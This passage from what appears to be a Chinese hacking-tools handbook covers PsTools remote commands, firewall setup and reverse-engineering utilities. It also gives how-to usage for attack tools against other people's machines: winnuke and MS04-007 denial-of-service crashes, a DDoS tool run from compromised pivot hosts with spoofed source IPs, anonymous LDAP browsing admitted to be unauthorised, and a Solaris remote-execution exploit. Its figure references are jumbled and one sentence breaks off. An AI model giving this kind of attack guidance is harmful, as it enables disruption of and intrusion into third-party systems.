- `-r <秒数>`：和 `-s` 连用的一个参数，它用来指定任务管理器模式下的刷新间隔，默认的刷新间隔为 1 秒。
- `-d`：显示各个进程的 CPU 使用信息。
- `-m`：显示各个进程的存储器使用信息。
- `-x`：非常详细地显示进程的所有信息。
- `-t`：以树型方式显示进程。

比如要查看远程机器 IP 上的进程的 CPU 使用信息，可以：

```bash
pslist -d \\远程机器ip
```

比如要查看一个 PID 号为 999、名称为 srm 的 exe 进程的存储器使用信息，可以：

```bash
pslist -m \\远程机器ip 999
```

或

```bash
pslist -m \\远程机器ip srm
```

比如要以任务管理器模式实时查看 61.12.23.4 上的进程情况，并且刷新间隔为 3 秒，可以：

```bash
pslist -s -n 3 \\远程机器ip
```

### 6. psuptime

psuptime 是一个了解远程机器运行了多久的命令。

使用它只需要打：`psuptime \\远程机器ip`

### 7. psshutdown

psshutdown 是一个远程关机命令。

它的使用格式为：

```bash
psshutdown [[-s | -r | -k [-t nn] [-m "消息"] [-f]] -a | -l | -o] [\\远程机器ip]
```

它的参数有：

- `-a`：取消以前就设置的关机指令。
- `-t`：离关机还有多少秒（默认是 20 秒）。
- `-s`：关闭机器。
- `-m`：要显示的信息。
- `-f`：关机时不保存运行中的程序。
- `-r`：表示重启。
- `-l`：表示锁定电脑。
- `-o`：表示注销用户。

比如我想让远程机器 30 秒后关闭并显示“要关机了，请保存文件”：

```bash
psshutdown -t 30 -s -m "要关机了，请保存文件" \\远程机器ip
```

如果是要重启的话：

```bash
psshutdown -t 30 -m "要关机了，请保存文件" -r \\远程机器ip
```

如果要取消刚才的指令，可以：

```bash
psshutdown -a \\远程机器ip
```

其他参数以此类推。

### 8. psfile

psfile 是一个显示机器上的会话和有哪些文件被网络中的用户所打开的命令。

它的使用格式为：

```bash
psfile [\\远程机器ip [-u Username [-p Password]]] [id | path] [-c]
```

它的参数有：

- `-u` 后面跟用户名。
- `-p` 后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要，如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-c` 关闭会话或文件。

比如我想看看远程机器上的会话和被远程用户打开的文件，可以：

```bash
psfile \\远程机器ip
```

接着就会显示：

```text
[33] C:\WINNT
User: ADMINISTRATOR
Locks: 0
Access: Read

[63] \PIPE\srvsvc
User: ADMINISTRATOR
Locks: 0
Access: Read Write
```

接着我想关闭 ID 为 33、路径为 c:\winnt 的这个会话，可以：

```bash
psfile \\远程机器ip 33 -c
```

或

```bash
psfile \\远程机器ip c:\winnt -c
```

### 9. psloggedon

psloggedon 是一个显示目前谁登录了机器的命令。

它的参数只有：

- `-l` 只显示本地登录用户，而不显示其它的网络登录用户。
- `-x` 不显示登录时间。

比如说要显示远程机器现在登录的用户，可以：

```bash
psloggedon \\远程机器ip
```

### 10. psgetsid

psgetsid 是一个远程获取账号 SID 信息的工具。

它的使用格式为：

```bash
psgetsid [\\远程机器ip [-u username [-p password]]] [account]
```

它的参数有：

- `-u` 后面跟用户名。
- `-p` 后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要，如果没有 `-p` 参数，则输入命令后会要求你输入密码。

比如要查看远程机器上账号名为 abc 的 SID 信息，可以：

```bash
psgetsid \\远程机器ip abc
```

### 11. pskill

pskill 是一个杀除进程的程序。

它的使用格式为：

```bash
pskill [\\远程机器ip [-u username] [-p password]] <process name | process id>
```

比如要杀除一个 PID 号为 999、名称为 srm.exe 的进程，可以：

```bash
pskill \\远程机器ip 999
```

或

```bash
pskill \\远程机器ip srm
```

### 12. psloglist

psloglist 是一个查看系统事件记录的程序。

它的使用格式为：

```bash
psloglist [\\远程机器ip [-u username [-p password]]] [-s [-t delimiter]] [-n # | -d #] [-c] [-x] [-r] [-a mm/dd/yy] [-b mm/dd/yy] [-f filter] [-l event log file] <eventlog>
```

它的参数有：

- `-u` 后面跟用户名。
- `-p` 后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要。
- `-c`：显示事件之后清理事件记录。
- `-l <事件记录文件名>`：用于查看事件记录文件。
- `-n <n>`：只显示最近的 n 条系统事件记录。
- `-d <n>`：只显示 n 天以前的系统事件记录。
- `-a mm/dd/yy`：显示 mm/dd/yy 以后的系统事件记录。
- `-b mm/dd/yy`：显示 mm/dd/yy 以前的系统事件记录。
- `-f <事件类型>`：只显示指定事件类型的系统事件记录。
- `-x`：显示事件数据代码。
- `-r`：从旧到新排列（如不加则默认是从新到旧排列）。
- `-s`：以一个事件为一行的格式显示，中间默认以逗号隔开各个信息。
- `-t <字符>`：这个参数和 `-s` 连用，用来改变 `-s` 中默认的逗号。

如果我想查看远程机器的系统事件记录，只需：

```bash
psloglist \\远程机器ip
```

比如我想查看最近 10 条 error 类型的记录，可以：

```bash
psloglist \\远程机器ip -n 10 -f error
```

## 7.27 winnuke

winnuke 这个东西我想大家在对付 win98 攻击的时候就在用了吧。不过，这里要介绍的和大家以前对付 win98 的 winnuke 是不一样的，这里的 winnuke 是专门用来对付 win2k 和 Windows XP 的，它有一定的针对性。具体地讲，它是针对 win2k 和 Windows XP 的 135 端口进行的 nuke 攻击。

看一下帮助内容：

```text
E:\back-tool>winnuke
================ HUC Win2000/XP RPC Nuke V0.10 ========
==================== By Lion Wei
come to http://www.cnhonker.com
====================

Usage:
  winnuke <TargetIP> [TargetPort]

Example:
  winnuke 192.168.0.1
  winnuke 192.168.0.1 135

PS:
  If target is XP, try 2 times.

E:\hack-tool>
```

可以看出，其使用方法非常简单：

```bash
winnuke 192.168.0.1
winnuke 192.168.0.1 135
```

好像没有什么可以多讲的吧。说一下效果吧。如果足够幸运攻击成功的话，win2k 的状况是 CPU 资源占用达到 100%，而对 Windows XP 而言，则会自动重启。

> 注意哦：并不是对所有的 win2k 和 Windows XP 都有效的。而且，如果是用来攻击 Windows XP 的话，基本上一次的成功率并不高，希望大家能多试几次。

总体来讲，可以说只有少数机器可以被 nuke 掉，具体如何，就要看大家的运气了。

## 7.28 ms04007dos.exe

继 Windows Workstation 的远程溢出漏洞被公布后，2004 年 2 月，微软再一次公布了 Windows 系统中被发现的一个非常危险的安全漏洞，该漏洞编号为 MS04-007。漏洞主要存在于微软的 Abstract Syntax Notation 1（ASN.1）中，远程攻击者利用该漏洞可以造成堆破坏从而执行恶意指令。漏洞影响 MSASN1.DLL 相关的应用，其中比较常见的是 LSASS.EXE 和 CRYPT32.DLL（任何使用 CRYPT32.DLL 的程序）。

在网上也公布了相应的攻击程序，不过该程序只能造成目标系统的 DOS，ms04007dos.exe 就是根据公布的那个源代码编译成的可执行程序。

ms04007dos.exe 的使用格式非常简单：**ms04007dos 目标主机的 IP**，见图 1。


该程序默认使用的是 445 端口，不过因为已经在源程序中固定了该端口，所以我们在使用的时候就不需要再输入端口号了，见图 2。

系统上也不会立刻有反应，我们耐心地等待一两分钟，成功的话，目标主机上就会弹出“lsass.exe — 应用程序错误”菜单，见图 3。点击确定后，系统会继续弹出一个菜单，提示 lsass.exe 意外地发生了一个错误，错误状态码为 128，然后提示一分钟后关机，就和当初 rpcdcom 漏洞溢出时，因为选择错了 SP 版本号，而导致目标系统当机时的情形几乎一样。


图 3

程序执行后没有什么特别的提示。而在目标

## 7.29 独裁者 DDoS 攻击器

DDoS 攻击（分布式拒绝服务攻击）是目前在 Internet 上常用的一种攻击方式，但同时也是一种比较难以防范的攻击方式。它的攻击原理非常简单，就是使用多台随机的攻击终端同时向目标主机的某个特定端口（通常是 WWW 所使用的 80 端口）发送大量的数据包，以阻塞该主机正常的访问。虽然 DDoS 的攻击原理很简单，但是要想彻底有效地防范这种攻击却是非常困难的，因为一个服务器要开启一些端口，来提供一些服务让别人来访问，服务器并不能自动地判断出访问的数据是正常的或是恶意的，因此也就很难在攻击前进行预防。

DDoS 的攻击工具有很多，独裁者 DDoS 攻击器就是其中不错的一个。独裁者 DDoS 攻击器除了几个支持程序外，主要包括服务端（Server.exe）以及控制端（Client.exe）两个可执行程序，感觉这很像特洛伊木马或是后门程序吧！我们先把服务端（Server.exe）上传到跳板电脑上去执行，服务端执行后系统会重新启动，重启后服务端就生效了。

控制端（Client.exe）启动后的界面见图 1。我们可以点击“添加”按钮来添加刚才那台运行了服务端的电脑，当然这需要我们知道它的 IP 地址。另外我们也可以通过点击“扫描主机”按钮，来让程序自动扫描运行过服务端程序的电脑，见图 2。


图 1

图 4

扫描到的主机会自动显示在“主机列表”中，这和手工添加是一样的。在对目标进行攻击前，我们可以先点击“检查状态”及“检查文件”按钮，来检查一下看刚才扫描到的那台电脑能不能正常使用，见图 3、图 4。

图 2

图 3

一切检查没有错误的情况下，我们选中“随机产生源端口”及“随机产生源 IP”先对自己进行伪装，目标 IP 栏中输入我们想要攻击的服务器 IP 地址，在目标端口栏输入想要攻击的对方的服务端口，例如 HTTP 服务就是 80 端口，SMTP 服务就是 25 端口。攻击方式一共有四种，分别为 SYN、LAND、FakePing、狂怒之 Ping，我们随便选择一个，我通常是选择 SYN 方式，最后点击“开始攻击”就可以了，见图 5。

图 5

此时对于被攻击的那台主机来讲，就会明显地感觉到速度受到影响，特别是 HTTP 的访问速度特别慢，甚至是瘫痪。不过，这要视对方服务器的性能、带宽、抗 DDOS 攻击能力及使用的防范方法，以及我们所使用的攻击终端的多少而定。

在被攻击主机上使用 `netstat -a` 命令查看端口信息，就会发现有一个 IP 地址为 13.75.235.53 的在不停地连接 HTTP 的 80 端口，见图 6。当然，实际上这个 IP 地址是假的。

图 6

## 7.30 ldapbrowser253

轻量级目录访问协议（Lightweight Directory Access Protocol，一般都简称为 LDAP）是一个轻量级的客户机—服务器协议，用于访问目录服务。LDAP 是基于 X.500 标准的，但是简单多了并且可以根据需要定制。LDAP 支持 TCP/IP，这对访问 Internet 是必须的。企业范围内实现 LDAP 可以让运行在几乎所有计算机平台上的所有应用程序从 LDAP 目录中获取信息。LDAP 目录中可以存储各种类型的数据：电子邮件地址、邮件路由信息、人力资源数据、公用密钥、联系人列表，等等。通过把 LDAP 目录作为系统集成中的一个重要环节，可以简化员工在企业内部查询信息的步骤，甚至连主要的数据源都可以放在任何地方。

目录与关系数据库相似，是指具有描述性的基于属性的记录集合，但它的数据类型主要是字符串，为了检索的需要添加了 BIN（二进制数据）、CIS（忽略大小写）、CES（大小写敏感）、TEL（电话型）等语法（Syntax），而不是关系数据库提供的整数、浮点数、日期、货币等类型，同样也不提供像关系数据库中普遍包含的大量的函数，它主要面向数据的查询服务（查询和修改操作比一般是大于 10:1），不提供事务的回滚（rollback）机制，它的数据修改使用简单的锁定机制实现 All-or-Nothing，它的目标是快速响应和大容量查询并且提供多目录服务器的信息复制功能。

LDAP 最大的优势可能就是可以在任何计算机平台上，用很容易获得的而且数目不断增加的 LDAP 客户端程序访问 LDAP 目录。而且也很容易定制应用程序为它加上 LDAP 的支持。

在 LDAP 中目录是按照树型结构组织，目录由条目（Entry）组成，条目相当于关系数据库中表的记录；条目是具有区别名 DN（Distinguished Name）的属性（Attribute）集合，DN 相当于关系数据库表中的关键字（Primary Key）；属性由类型（Type）和多个值（Values）组成，相当于关系数据库中的域（Field）由域名和数据类型组成，只是为了方便检索的需要，LDAP 中的 Type 可以有多个 Value，而不是关系数据库中为降低数据的冗余性要求实现的各个域必须是不相关的。

关于 LDAP 的配置及使用，实际上是很复杂的，也不是一句两句就可以讲清楚，大家可以从网上查一查相关的技术说明。

LDAP 服务使用的是 389 端口，下边让我们来看一下如何使用 ldapbrowser253 来连接远程 LDAP 服务器。

关于 ldapbrowser253 的安装是很简单的，基本上一路 NEXT 就可以了。ldapbrowser253 启动后的主界面见图 1。

图 1

图 2

点击上方工具条中的“File”下的“New Profile”来建立一个新的服务连接，名称可以随便选，使用默认的“New Profile”也可以，见图 2。

点击“下一步”按钮，出现主机信息菜单，见图 3。我们输入主机的 IP 地址，端口使用默认的 389。选中“Anonymous bind”，也就是匿名连接，当然了，大多数 LDAP 服务器是不允许匿名连接的，但是却仍然有一些在配置上存在这个安全问题，点击“下一步”后出现 LDAP 设置菜单，基本上使用默认的设置就可以了，图 4。

图 3

图 4

点击“完成”后，ldapbrowser253 就会自动与目标建立连接，见图 5。

连接成功后的一些状态信息会显示在 ldapbrowser253 下方的窗口中，中间窗口的左栏中显示的是连接的服务器，右栏中显示的是目标服务器上的所有目录信息，见图 6。

图 5

图 8

图 6

我们可以通过点击“New Profile”下的“CN=Schema”、“CN=Configuration”、“DC=tsma”文件夹图标来查看它们的具体记录信息，见图 7。

图 9

图 7

图 7 中显示出来的那些文件我们也可以下载下来，右击想要下载的文件名，在弹出的菜单中选择“Save Data”，见图 8。

我们还可以查看到这些文件的属性，右击想要查看的文件，在弹出的菜单中选择“Properties”就可以清楚地看到该文件的属性了，见图 9。

我们右击“DC=tsma”的文件夹图标，在弹出的菜单中选择“Directory Search”来进行目录的搜索，见图 10。在这儿“Search DN:”我们就使用默认的“DC=tsma,DC=com”就可以了，当然你也可以搜索别的，如果你知道的话。搜索的结果会显示在下方的小窗口中，见图 11。

图 10

图 11

本篇文章中，该 LDAP 服务器上并没有什么诸如某人电子邮箱及联系方式等太敏感的信息，否则的话我想对方就真的很麻烦了。

但虽然如此，我们毕竟已经悄悄地与对方的服务器建立了一个连接，并获得了一些信息，而这些却根本就没有得到对方管理员的许可。

## 7.31 天网防火墙 2.51 的简单设置

随着大众对于网络安全意识的提高，人们已经越来越不满足于安装 SP 服务包，或者是给系统打补丁等这种被动的防范措施了，为了防范入侵者对自己系统的恶意扫描以及一些 DOS 类的攻击，当然也包括拦截一些有目的地发送过来的数据请求，网络防火墙成了继病毒防火墙之后系统中的又一必备软件。

就目前来讲，网络防火墙主要分为硬件防火墙及软件防火墙两种，硬件防火墙通常价格昂贵，因此也只有一些大型公司以及一些特殊的部门才用得起，而在 Internet 上使用最广泛的则是软件防火墙。在国内，天网防火墙就是一款比较不错的免费的个人网络防火墙软件，国内有许多个个人用户以及一些小型的企事业单位的网络服务器使用的都是天网防火墙。

下边，我们就以天网防火墙 2.51 版本来简单介绍一下如何正确地设置，以使我们的系统做到更加安全。

天网防火墙的安装非常简单，基本上只需要一路点击“下一步”按钮，就可以完成安装了。

天网防火墙 2.51 启动后的主界面见图 1。最左边的三个图标，由下而上依次为“系统设置”、“自定义 IP 规则”、“应用程序规则”；往右为“安全级别”的选择项，再往右的三个大图标分别为“应用程序网络使用情况”、“日志”、“接通、断开网络”，最后为“关于”，也就是程序的版本信息。

图 1

让我们先来看一下“系统设置”项，在“启动”中我们选上“开机后自动启动防火墙”，这样以后开机后，天网就会自动地运行了，在“应用程序权限”中我们可以选上“允许所有的应用程序访问网络，并在规则中记录这些程序”，也可以不选，如果我们是在局域网中的话，可以在“局域网地址设定”中填上我们的 IP 地址，否则就不必填了，见图 2。

图 3

图 2

下边让我们来看一下“自定义 IP 规则”选项，这是整个天网防火墙设置的重点，实际上天网默认的设置还算是比较严格的，禁止了 ping，对于一些常见的攻击方法也都提供了保护，对于个人用户来说，还可以禁止掉局域网中用户访问共享资源等项，见图 3。

图 4

我们双击“IP 规则修改”这条规则，在“TCP”中选择从 1—512，同样地在“UDP”中也选择从 1—512，对方端口可以选择从 1—65535，因为下边的选项为“当满足上边条件时拦截”，所以当有人试图连接我们的从 1—512 的端口时，都会被防火墙拦截，并被记录到日志中。如果我们认为拦截这些端口还不够的话，还可以再多选一些端口。倘若是服务器的话，因为有时必须要提供一些服务，比如 FTP、SMTP、WWW 等，就必须要放行相应的端口，在这一点上，个人电脑应该是可以比那些服务器更加安全的，图 4。

天网防火墙也提供了一些空规则，来让我们自由地定义，我们随便找一条“空规则”双击后打开，采用同上的方法，只是拦截端口改为从 7788 到 7788。这样的话就算我们的系统开放了 80 端口，并且存在 WEBDAV 远程溢出漏洞，我们使用 ISNO 的那个攻击程序就算是远程溢出成功了，由于与 7788 端口的连接被防火墙拦截了，也不可能得到一个 CMD SHELL。在这儿我只是举个使用的例子而已，如果是使用其他的程序，当然不行，图 5。

图 6

图 5

在“应用程序规则”中记录的主要是我们的系统中的一些服务访问网络的设置，在这儿如果发现一些可疑的服务要访问网络的话，就可以通过右边的“删除”按钮来将这条规则清除掉，见图 6。

在“应用程序网络使用情况”中记录的为我们系统所开放的端口情况，主要有 TCP 及 UDP 两大类，通过查看这个，也可以发现我们的系统可能存在的安全隐患，见图 7。

图 7

最后让我们来看一下日志，当有人试图扫描或连接我们的端口时，如果又恰好符合我们的拦截设置，天网就会将对方的 IP 及对方的操作请求记录下来，反映在日志中，以供我们分析使用，见图 8。

实际上只要上网，我们的系统就会被扫描，这种情况非常正常，许多朋友也不要紧张，这仅仅是正常的扫描而已，并非是攻击。只要我们正确地设置了防火墙，并且及时地安装 SP 服务包以及一些补丁，那么来自于网上的绝大多数恶意扫描及攻击都是可以防御的。

## 7.32 IPF

大家可能对这个工具比较陌生，它是一款命令行下的防火墙软件，我也是在一个偶然的机会得到的，看了看，感觉还不错，所以写出来，给大家看看。

首先，拿到软件的第一件事就是看帮助了：

```text
E:\hack-tool\ipf>ipf help
ipf v1.0 (c) 2002 by Doc Holiday & van Hauser <Holiday@TheHackersChoice.com>

Syntax:
    ipf [list]
    ipf [enable|disable]
```

```text
ipf [enable|disable]
    [tcp|udp|proto|all]

ipf [add|del] [tcp|udp|proto]
    [port|protocol id]

ipf [help]

Changes on the Windows IP-Filter will
require a reboot to work!!

Check out http://www.thehackerschoice.com regulary for updates.
```

首先看一下 list 参数，该参数的作用就是列出当前的配置状况：

```text
E:\hack-tool\ipf>ipf list

IP Filter is disabled

Network Interface: [0] Intel(R) PRO/100 VE Network Connection
IP-Address: 192.168.0.2

Allowed TCP-Ports: all
Allowed UDP-Ports: all
Allowed protocols: all
```

从这里可以看出，该防火墙作用在 Intel(R) PRO/100 VE Network Connection 这块网卡上，对该网卡进行过滤，当前的配置是允许 TCP、UDP 等一切协议。

接下来，我们来看看，开启一个过滤器：

```text
E:\hack-tool\ipf>ipf enable udp （该命令用于开启 UDP 的过滤器）

You enabled the filter for UDP on interface Intel(R) PRO/100 VE Network Connection
```

接下来，用 list 参数验证一下。

```text
E:\hack-tool\ipf>ipf list

IP Filter is disabled

Network Interface: [0] Intel(R) PRO/100 VE Network Connection
IP-Address: 192.168.0.2

Allowed TCP-Ports: all
Allowed UDP-Ports: none （从这里看到，我们已经禁止了 UDP 协议的数据）
Allowed protocols: all
```

我们启用了 UDP 过滤器，因此，过滤掉了所有的 UDP 数据。这样的话，我们的 QQ 就无法上线了，所以，我们要开启 UDP 4000，这样才可以让我们的 QQ 上线：

```text
E:\hack-tool\ipf>ipf add udp 4000 （打开 UDP 4000 端口）

Added port 4000 for UDP on interface Intel(R) PRO/100 VE Network Connection
```

用 list 函数来验证一下。

```text
E:\hack-tool\ipf>ipf list

IP Filter is disabled

Network Interface: [0] Intel(R) PRO/100 VE Network Connection
IP-Address: 192.168.0.2

Allowed TCP-Ports: all
Allowed UDP-Ports: 4000 （OK，已经打开了 UDP 4000 端口了）
Allowed protocols: all
```

这样还不行啊，呜~~~ 因为聊天的时候，使用的是 4000~8000 之间的一个随机的 UDP 端口进行数据传输的，只开 UDP 4000 的话，可以上线，但是不能聊天啊，不行，继续，再来：

```text
E:\hack-tool\ipf>ipf add udp 4001-8000
（打开 UDP 4001~8000 端口）

Added port 4001-8000 for UDP on interface Intel(R) PRO/100 VE Network Connection
```

用 list 参数验证一下。

```text
E:\hack-tool\ipf>ipf list

IP Filter is disabled

Network Interface: [0] Intel(R) PRO/100
VE Network Connection
IP-Address: 192.168.0.2

Allowed TCP-Ports: all
Allowed UDP-Ports: 4000 4001-8000
Allowed protocols: all
```

用 list 参数验证一下。

```text
E:\hack-tool\ipf>ipf list

IP Filter is disabled

Network Interface: [0] Intel(R) PRO/100
VE Network Connection
IP-Address: 192.168.0.2

Allowed TCP-Ports: all
Allowed UDP-Ports: 4001-8000
Allowed protocols: all
```

哈哈，现在可以了，一切搞定~~~
如果看着哪个规则不爽的话，我们可以删掉它：

```text
E:\hack-tool\ipf>ipf del udp 4000 （关掉 UDP 的 4000 端口）

Deleted port 4000 for UDP on interface Intel(R) PRO/100 VE Network Connection
```

呵呵，就这么简单，有意思没？哈哈，自己试试去吧。

## 7.33 winhex 的安装

winhex 是基于 Windows 系统平台的一款功能非常强大的十六进制编辑器。它可以让我们以十六进制的形式来显示目标程序，以供我们对其进行详细的分析。

winhex 的安装非常简单。运行 setup.exe 安装程序后，选择好安装到的目录，点击“OK”就可以了，见图 1。

winhex 接着会提示我们是否在开始任务栏中添加快捷方式以及在 Windows 系统中进行注册等等信息，一路确定，最后 winhex 提示我们安装完成，是否运行 winhex，见图 2。

winhex 启动后，我们就可以打开目标文件，然后对其进行分析了，见图 3。

图 2

当然了，WinHex 具体的使用要比安装复杂得多，这也不是我们一句两句就可以讲明白的。限于篇幅，就不细讲了，有兴趣的话，可以到网上收集一下相关的学习文章。

## 7.34 W32Dasm 的简单使用

W32Dasm 是一个基于 Windows 系统平台的著名反汇编工具，它可以非常方便地将编译好的一些 exe 及其他程序转化出汇编代码，以供我们来对程序进行分析。

W32Dasm 不需要安装，解压后直接运行就可以了，压缩包中包括了 W32Dasm8.93 的几个版本以及 W32Dasm10 的两个版本，我们以 W32Dasm10 为例。

图 2

图 1

W32Dasm10 启动后的界面见图 1，程序已经被汉化过了。

点击最上方工具条中的“反汇编”，选择“打开文件”，找到我们想要反汇编的程序，我以 rpc_locator.exe 为例，确定后，在 W32Dasm 的窗口中就会显示出程序的汇编代码了，见图 2。

接下来就是分析该程序了，不过，这已经不在本书的讨论范围之内了。

## 7.35 ActivePerl 的安装

Perl 程序是网络上一种常用的程序，在 UNIX/LINUX 上更为常见。对于 UNIX/LINUX 系统来讲，安装系统时就会默认安装 Perl 的解释语言，但是在 Windows 系统平台下，Perl 解释语言并不会被安装，因此我们要想在 Windows 系统下运行 Perl 程序的话，需要单独来安装 Perl 的解释语言。在 Windows 下通常安装的都是 ActivePerl。

下边就让我们来看一下 ActivePerl 的安装，以 ActivePerl-5.8 版本为例，其他版本的安装方法大致类似。

安装程序运行后的界面见图 1。点击“Next”，在这儿我们选中“I accept the terms in the License Agreement”，接受条款。具体的那些条款是什么意思，我也没有看，反正不接受，就不让你进行安装，见图 2。

## 武装到牙齿

下边进行安装选择菜单，主要是安装包的选择，以及安装目录的选择，见图 3。

接下来的菜单会提示我们是否使用 PPM3，也就是 Programmer's Package Manager version 3，选中就可以了，图 4。

再下来的菜单会提示我们添加 Perl 的工作路径，建立 IIS 需要的一些脚本等，图 5。

到这儿，所有的选择就都完成了，出现了安装的界面，图 6。点击“Install”安装按钮，安装程序就会自动地进行安装了，图 7。

最后安装完成后，程序会出现一个完成的菜单，图 8。接下来，就可以使用你收集的那些 Perl 程序了。

```text
F:\hacker\unix\linux>perl sumachind.pl

---[ nootdown.pl -> Solaris SADMIND Remote Command Execution

Usage: sumachind.pl -> <target> <command> [options]
Options:
 -i    Start interactive mode (for multiple commands)
 -p    Avoid the portmapper and use this sadmind port
 -P    Query alternate portmapper on this UDP port
 -v    Display information about this exploit

F:\hacker\unix\linux>
```

在安装的时候，因为安装程序已经自动地在系统中添加了 Perl 的工作路径，所以，我们在任何目录下都可以直接运行 Perl 程序。其使用格式为 **perl filename.pl**，图 9。

## 7.36 perl2exe 的简单使用

perl2exe 是常用的一个专门用于将 Perl 程序转换成 Windows 系统下可执行的 exe 文件的工具。生成 exe 文件后，原来的 Perl 程序就可以脱离 ActivePerl 环境来单独运行了。

我们以目前最新的 V8.10 版本为例，这个版本可以从网上免费下载到（http://www.indigostar.com/perl2exe.htm#Download），不过，必须要注册，否则只能试用 30 天。后来我又在 perl2exe 的目录下拷贝了一个 V7.00 版本的注册过的 perl2exe.exe，文件名我改为了 perl2exel.exe，必要的时候，大家可以将这个文件改名为 perl2exe.exe，就可以正常使用了。不过，我认为最好是去注册一下，省得以后会碰到别的麻烦。

好了，下边让我们来看看 perl2exe 的使用吧。

```text
F:\perl2exe\perl2exe>perl2exe
```

见图 1，从图 1 可以看出，perl2exe 的最简单的使用格式就是 `perl2exe filename.pl`，这样 perl2exe 就会根据默认的选项生成一个与源 pl 文件同名的 exe 文件。

perl2exe 的选项主要有：

- `-small`，生成一个更小的 exe 可执行文件；
- `-tiny`，生成一个没有控制台的可执行文件；
- `-o=output_filename`，指定生成的可执行文件的文件名，不指定则生成和源 pl 文件同名的可执行文件；
- `-I=directory`，指定生成的可执行文件存放的目录；
- `-platform=Win32`，生成 Win32 代码，这也是缺省的选项。

下边我们以 ciscoexp.pl 为例，来看一下如何生成可执行程序。

```text
F:\perl2exe\perl2exe>perl2exe ciscoexp.pl --gui

Perl2Exe V8.10 Copyright (c) 1997-2004 IndigoSTAR Software.

This is an evaluation version of Perl2Exe,
which may be used for 30 days.
For more information see the attached pxman.htm file,
or visit http://www.indigostar.com
Converting 'ciscoexp.pl --gui' to ciscoexp.exe
```

没有错误提示，可执行文件生成完成了，见图 2。

最后再来让我们运行一下刚生成的程序，看看运行的过程中是否会有错误，见图 3。一切顺利，可以正常地使用了。

## 7.37 Cygwin 的安装

Cygwin 最大的好处就是可以在 Windows 平台下模拟一个 UNIX/LINUX 环境，从而在 Windows 平台下运行许多 for UNIX/LINUX 的程序，甚至从事于 UNIX/LINUX 的一些软件开发。这对于那些使用习惯了 UNIX/LINUX 系统平台，而因为某些原因又不得不使用 Windows 系统的管理员来说，Cygwin 是最好的选择。

让我们来看看 Cygwin 的安装过程。

将 Cygwin 的安装包解压后，在 Cygwin 的目录下会有一个 setup 安装程序，双击运行后出现如图 1 的界面。

点击“下一步”后，出现如图 2 的安装界面，在这儿一共有三个选项，分别是“Install from Internet”从 Internet 上安装、“Download from Internet”从 Internet 上下载、“Install from Local Directory”从本地目录安装。在这儿我们选择第三个，也就是从本地目录安装。

“下一步”后，出现如图 3 的界面，在这儿主要是用来选择将 Cygwin 安装到的目录。在这儿我选择的是“e:\cygwin”，当然你也可以选择其他的。在界面的下边还有两个选项，“Install For”为安装的 Cygwin 是所有用户都可以使用，还是只有安装者才能使用？对于 Windows 9x/ME 来说，这个选项没有任何意义，只有是 Windows NT/2000/XP 时才有效；“Default Text File Type”为缺省的文本文件类型选项，通常情况下为了与 UNIX/LINUX 尽可能地相似，我们都会选择“Unix”。

接下来的安装界面如图 4，是选择 Cygwin 的安装源程序所在的目录，通常 Cygwin 的安装程序都会自动地选择出来，所以，我们直接点击“下一步”就行了。

图 4

图 5

接下来就是选择要安装的软件包及安装方式了，见图 5。在安装界面的左下角有清楚的提示，我们可以通过点击那个类似于“S”的图标来改变安装的方式。Cygwin 的安装方式一共有“Default”、“Install”、“Reinstall”、“Uninstall”四种，缺省的安装方式为“Default”。在这儿我建议选择“Install”方式来安装所有的软件包。

选择好后，安装程序就会开始自动地安装了，包括 Apache 1.3.24、Perl 5.6.1、OpenSSL、gcc 等常用的工具包都会被安装进去。

图 6

安装好软件包后，安装程序就会进入最后一个安装界面，提示我们在桌面上建立一个图标以及将图标添加到开始菜单中。点击“完成”，整个安装教程就结束了，见图 7。

图 7

图 8

我们要想运行 Cygwin 的话，只需双击桌面上的 Cygwin 图标就可以了，见图 8。